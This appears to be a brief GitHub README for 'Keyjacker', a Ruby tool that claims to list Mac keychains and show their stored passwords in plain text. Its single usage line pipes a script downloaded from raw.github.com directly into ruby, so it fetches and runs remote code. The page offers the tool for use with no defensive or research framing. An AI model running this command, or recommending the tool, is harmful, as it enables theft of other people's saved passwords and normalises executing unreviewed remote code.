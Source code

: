 Keyjacker
=========
Keyjacker enumerates Mac keychains and displays plain text passwords.

Usage
---------
curl https://raw.github.com/ipwnstuff/Keyjacker/master/Keyjacker.rb | ruby